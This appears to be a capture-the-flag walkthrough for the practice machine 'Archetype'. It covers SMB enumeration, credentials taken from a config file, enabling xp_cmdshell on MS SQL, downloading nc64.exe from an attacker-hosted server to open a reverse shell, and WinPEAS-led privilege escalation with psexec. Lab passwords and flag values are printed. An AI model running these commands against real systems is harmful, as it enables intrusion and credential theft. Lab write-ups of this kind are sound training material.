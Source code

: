 # Archetype

## Initial Reconnaissance
- **Port Scan:** 
```sudo nmap -sC -sV 10.129.238.100 # port scan on the ip```
- Discovered database server port as `1433`.

- **SMB Enumeration:**``
```smbclient -N -L 10.129.238.100 # list share over SMB```
- Identified a non-administrative share named `backups`.

- **Accessing the Share:**
```smbc lient -N \\\\10.129.238.100\\backups #going in the onlynon-admin share```
- Found file `prod.dtsConfig` and downloaded it using `get prod.dtsConfig`.
- Revealed credentials: `M3g4c0rp123` for user `ARCHETYPE\sql_svc`.

## Exploitation

- **MS SQL Server Connection:**
- Installed `mssqlclient.py` using:
  ```
  git clone https://github.com/SecureAuthCorp/impacket.git
  cd impacket
  pip3 install -r requirements.txt
  sudo python3 setup.py install
  ```
- Connected to SQL Server with credentials:
  ```
  python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.240.43 -windows-auth
  ```
  - Enabled `xp_cmdshell` for Windows command execution.

- **Reverse Shell Setup:**
- Started HTTP server and Netcat listener:
  ```
  sudo python3 -m http.server 80
  sudo nc -lvnp 443
  ```
- Uploaded `nc64.exe` to the target:
  ```
  xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://{my_ip_adress}/nc64.exe -outfile nc64.exe"
  ```
- Executed `nc64.exe` for reverse shell:
  ```
  xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe {my_ip_adress} 443"
  ```
  - Acquired user flag at `C:\Users\sql_svc\Desktop\user.txt`.

## Privilege Escalation

- **WinPEAS Analysis:**
- Downloaded WinPEAS: [WinPEASx64.exe](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe).
- Executed WinPEAS:
  ```
  .\winPEASx64.exe
  ```
  - Identified a vulnerable file: `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`.
  - Discovered administrator password: `MEGACORP_4dm1n!!`.

- **Escalating Privileges:**
- Connected as administrator using Impacket:
  ```
  python3 psexec.py administrator@10.129.238.100
  ```
  - Accessed administrator's desktop and retrieved the flag at `root.txt`.

## Flags Found

- **User Flag:** `3e7b102e78218e935bf3f4951fec21a3`
- **Root Flag:** `b91ccec3305e98240082d4474b848528`


